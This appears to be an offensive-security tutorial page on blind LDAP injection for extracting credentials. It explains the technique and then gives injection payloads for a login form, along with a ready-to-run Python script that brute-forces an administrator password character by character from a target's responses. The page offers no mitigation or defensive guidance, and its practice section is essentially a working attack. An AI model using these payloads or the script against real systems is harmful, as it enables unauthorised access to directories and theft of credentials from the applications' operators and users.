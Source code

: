 ```yaml
---
title: 'Blind Exploitation: LDAP and Credential Extraction'
description: Learn to perform blind LDAP injection for extracting sensitive data using
  manual and automated methods.
keywords:
- Blind LDAP Injection
- Credential Extraction
- Boolean Response
- Character-by-Character Data Extraction
- LDAP Filter
- Injection Automation
- Sensitive Data Extraction
- Application Behavior Analysis
---
```


# Blind Exploitation

## Context

Blind exploitation in LDAP injection involves extracting sensitive data from an LDAP directory without receiving direct error messages or visible content feedback. This technique requires an understanding of LDAP query structures, Boolean logic, and character encoding. Attackers leverage these skills to manipulate LDAP queries and infer data based on subtle behavioral changes in a target application. Prior knowledge of fundamental LDAP injection principles will be beneficial for effectively executing blind exploitation.

## Theory

### Blind LDAP Injection Fundamentals

Blind LDAP injection exploits input fields to infer data through LDAP responses without explicit error or content leakage. The core principle involves deducing the correctness of a query by observing subtle changes in application behavior. Applications that return only success or failure messages without detailed error feedback are vulnerable to this type of attack.

### Boolean Response Analysis in LDAP

Attackers use Boolean logic to craft LDAP filters that produce true or false conditions. This is achieved by observing application responses, such as success or failure messages, to specific payloads. In this process, attackers send specially crafted inputs that the LDAP server evaluates, leading to application behavior that indicates a true or false condition.

### Character-by-Character Data Extraction

This technique involves iteratively brute-forcing each character of a target value, such as a password, by employing substring or wildcard filters. This approach exploits implementation flaws like the lack of input sanitization, allowing for the injection of arbitrary LDAP filter logic. The attacker's goal is to reconstruct sensitive values by adjusting their payloads based on observed behavioral feedback from the application.

## Practice

### Manual Blind LDAP Injection for Credential Extraction

- **Identify a Vulnerable Input Field**: Begin by searching for input fields that interact with LDAP, like a login form.
- **Initial Payload Injection**:
  ```plaintext
  *) (|(sn=admin*))
  ```
  This payload attempts to test if any user with a surname (sn) starting with 'admin' exists.
- **Observe Application Responses**: Check for any changes in the application's behavior, such as successful login or different error messages, indicating a true match.
- **Refine the Injection Payload**:
  ```plaintext
  *) (|(sn=administrator)(sn=admina*))
  ```
  This payload refines the query to brute-force the next character.
- **Iterate Through Characters**: Continue adjusting the payload character-by-character until you reconstruct the full sensitive value, such as an admin password.

### Automated Blind LDAP Injection Using Custom Scripts

Execute the following Python script to automate blind LDAP injection:

```python
#!/usr/bin/env python3
import requests
import string

url = 'http://target-app/login'
charset = string.ascii_letters + string.digits
extracted = ''

for i in range(1, 21):  # Modify range according to expected password length
    for c in charset:
        payload = f"*) (|(sn=administrator)(password={extracted + c}*))"
        data = {'username': payload, 'password': 'irrelevant'}
        r = requests.post(url, data=data)
        if 'Welcome' in r.text:
            extracted += c
            print(f"[+] Found character: {c}")
            break

print(f"Extracted password: {extracted}")
```

This script iteratively sends crafted LDAP filter logic to brute-force sensitive data like the administrator password by interpreting application responses.

## Tools

- **Burp Suite**
- **Custom Python Scripts**